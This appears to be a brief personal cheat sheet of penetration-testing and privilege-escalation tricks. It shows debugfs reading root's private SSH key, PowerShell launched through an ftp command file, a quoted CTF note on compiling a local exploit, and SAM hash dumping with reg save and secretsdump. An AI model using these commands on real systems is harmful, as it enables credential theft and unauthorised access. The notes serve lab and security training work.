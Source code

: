
# INODES
if you own the directory but not the file, you can move it and create another one with the same name

# disk permision
if you have disk permission you can use
```
debugfs /dev/sda1
debugfs: cat /root/.ssh/id_rsa
```
# powershell thruogh ftp when restricted
```
 echo !powershell.exe > ftpcommands.txt && ftp -s:ftpcommands.txt
 ```
# weird dependencies location
for example :
As gcc is not available on the target machine, the exploit must be compiled locally. LinEnum
previously identified ​ /home/decoder/test​ as world-writable and can be used to drop the binary.
Attempting to run the exploit without modification will fail as the target is missing ​ /etc/lsb-release​ .
Simply changing references of ​ /etc/lsb-release​ to ​ /home/decoder/test/lsb-release​ is sufficient.


# DUMP HASHES
reg save hklm\sam c:\sam
reg save hklm\system c:\system
python /usr/share/doc/python-impacket/examples/secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
